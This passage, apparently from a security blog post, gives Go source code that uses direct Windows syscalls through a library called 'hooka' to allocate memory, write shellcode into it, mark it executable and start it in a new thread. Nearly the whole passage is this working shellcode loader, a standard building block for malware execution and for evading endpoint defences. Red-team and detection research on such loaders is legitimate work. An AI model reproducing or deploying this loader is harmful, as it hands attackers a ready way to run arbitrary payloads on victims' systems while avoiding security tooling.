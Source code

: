 And finally we approach all these API calls in order to execute our shellcode, this part isn't interesting at all since there are tons of examples that use this same technique. So here is the remaining code:

```go
var addr uintptr
regionsize := uintptr(len(shellcode))

fmt.Println("[*] Calling NtAllocateVirtualMemory...")
r, err := hooka.Syscall(
    NtAllocateVirtualMemory,
    uintptr(0xffffffffffffffff),
    uintptr(unsafe.Pointer(&addr)),
    0,
    uintptr(unsafe.Pointer(&regionsize)),
    windows.MEM_COMMIT|windows.MEM_RESERVE,
    syscall.PAGE_READWRITE,
)
if r != 0 {
    log.Fatal(err)
}

fmt.Println("[*] Calling NtWriteVirtualMemory...")
hooka.Syscall(
    NtWriteVirtualMemory,
    uintptr(0xffffffffffffffff),
    addr,
    uintptr(unsafe.Pointer(&shellcode[0])),
    uintptr(len(shellcode)),
    0,
)

fmt.Println("[*] Calling NtProtectVirtualMemory...")
var oldProtect uintptr
r, err = hooka.Syscall(
    NtProtectVirtualMemory,
    uintptr(0xffffffffffffffff),
    uintptr(unsafe.Pointer(&addr)),
    uintptr(unsafe.Pointer(&regionsize)),
    syscall.PAGE_EXECUTE_READ,
    uintptr(unsafe.Pointer(&oldProtect)),
)
if r != 0 {
    log.Fatal(err)
}

fmt.Println("[*] Calling NtCreateThreadEx...")
var hhosthread uintptr
r, err = hooka.Syscall(
    NtCreateThreadEx,
    uintptr(unsafe.Pointer(&hhosthread)),
    0x1FFFFF,
    0,
    uintptr(0xffffffffffffffff),
    addr,
    0,
    uintptr(0),
    0,
    0,
    0,
    0,
)

fmt.Println("[*] Executing shellcode...")
```